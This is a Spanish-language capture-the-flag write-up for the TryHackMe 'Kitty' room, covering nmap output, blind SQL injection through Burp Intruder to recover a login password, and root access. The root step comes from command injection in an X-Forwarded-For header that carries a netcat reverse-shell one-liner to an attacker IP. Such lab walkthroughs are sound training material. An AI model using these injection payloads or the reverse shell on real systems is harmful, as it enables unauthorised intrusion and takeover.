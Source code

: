 ```yaml
---
title: "Kitty  Writeup - Try-Hack-Me"
date: 2024-02-05
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets/img/imagenes/Kitty.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Kitty banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![img](/assets/img/imagenes/Pasted image 20240204210908.png)

![img](/assets/img/imagenes/Pasted image 20240204211038.png)
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![img](/assets/img/imagenes/Pasted image 20240204213231.png)

![img](/assets/img/imagenes/Pasted image 20240204213305.png)

### Fuzzing con gobuster

![img](/assets/img/imagenes/Pasted image 20240204213332.png)
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![img](/assets/img/imagenes/Pasted image 20240204220002.png)

intruder
![img](/assets/img/imagenes/Pasted image 20240204220113.png)

configuramos el payloads
![img](/assets/img/imagenes/Pasted image 20240204220220.png)
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![img](/assets/img/imagenes/Pasted image 20240204222627.png)

para el tercer posición obtenemos la letra "w"
![img](/assets/img/imagenes/Pasted image 20240204223225.png)
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![img](/assets/img/imagenes/Pasted image 20240204235500.png)

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![img](/assets/img/imagenes/Pasted image 20240205000151.png)
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![img](/assets/img/imagenes/Pasted image 20240205001529.png)
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

```python
	username: kitty
	password: L******Y #L0ng_Liv3_kittY
```

### ssh

![img](/assets/img/imagenes/Pasted image 20240205003102.png)

### Escalada de Privilegios

![img](/assets/img/imagenes/Pasted image 20240205004914.png)
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  
![img](/assets/img/imagenes/Pasted image 20240205005339.png)

### localhost:8080

![img](/assets/img/imagenes/Pasted image 20240205005619.png)
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![img](/assets/img/imagenes/Pasted image 20240205011158.png)
esperamos un rato a que se haga el guardado.

### WE ARE ROOT

![img](/assets/img/imagenes/Pasted image 20240205012010.png)
